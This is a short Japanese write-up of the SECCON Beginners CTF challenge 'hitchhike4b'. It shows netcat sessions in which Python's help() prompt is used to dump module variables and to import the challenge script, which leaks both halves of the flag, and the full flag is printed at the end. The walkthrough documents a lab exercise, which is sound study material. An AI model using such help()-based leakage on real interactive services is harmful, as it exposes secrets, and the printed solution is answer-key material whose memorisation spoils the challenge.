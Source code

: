 # Writeup

`nc hitchhike4b.quals.beginners.seccon.jp 55433` を実行する。

```
$ nc hitchhike4b.quals.beginners.seccon.jp 55433
 _     _ _       _     _     _ _        _  _   _
| |__ (_) |_ ___| |__ | |__ (_) | _____| || | | |__
| '_ \| | __/ __| '_ \| '_ \| | |/ / _ \ || |_| '_ \
| | | | | || (__| | | | | | | |   <  __/__   _| |_) |
|_| |_|_|\__\___|_| |_|_| |_|_|_|\_\___|  |_| |_.__/

----------------------------------------------------------------------------------------------------    

# Source Code

import os
os.environ["PAGER"] = "cat" # No hitchhike(SECCON 2021)

if __name__ == "__main__":
    flag1 = "********************FLAG_PART_1********************"
    help() # I need somebody ...

if __name__ != "__main__":
    flag2 = "********************FLAG_PART_2********************"
    help() # Not just anybody ...

---------------------------------------------------------------------------------------------------- 
```

サーバー側にあるソースコードが表示されている。

Pythonの`help()`が実行されていて、いくつかコマンドが打てる。

`__name__`などの予約語をいくつか売ってみると、`__main__`と打った時に変数が表示され、フラグの前半部分が得られた。

```
help> __main__
Help on module __main__:

NAME
    __main__

DATA
    __annotations__ = {}
    flag1 = 'ctf4b{53cc0n_15_1n_m'

FILE
    /home/ctf/hitchhike4b/app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc.py
```

ソースコードを見ると、フラグの後半部分を表示するためには`__main__`でない方法で自身のコードを実行させれば良さそうなので、モジュールとして読み込む。

ファイル名が分かっているので、そのまま入力するとモジュールとして読み込むことができる。

```
help> app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc
----------------------------------------------------------------------------------------------------    

# Source Code

import os
os.environ["PAGER"] = "cat" # No hitchhike(SECCON 2021)

if __name__ == "__main__":
    flag1 = "********************FLAG_PART_1********************"
    help() # I need somebody ...

if __name__ != "__main__":
    flag2 = "********************FLAG_PART_2********************"
    help() # Not just anybody ...

---------------------------------------------------------------------------------------------------- 
```

```
help> app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc
Help on module app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc:

NAME
    app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc

DATA
    flag2 = 'y_34r5_4nd_1n_my_3y35}'

FILE
    /home/ctf/hitchhike4b/app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc.py
```

モジュールとして読み込んだので、`flag2`のほうが実行されて表示される。

<!-- ctf4b{53cc0n_15_1n_my_34r5_4nd_1n_my_3y35} -->
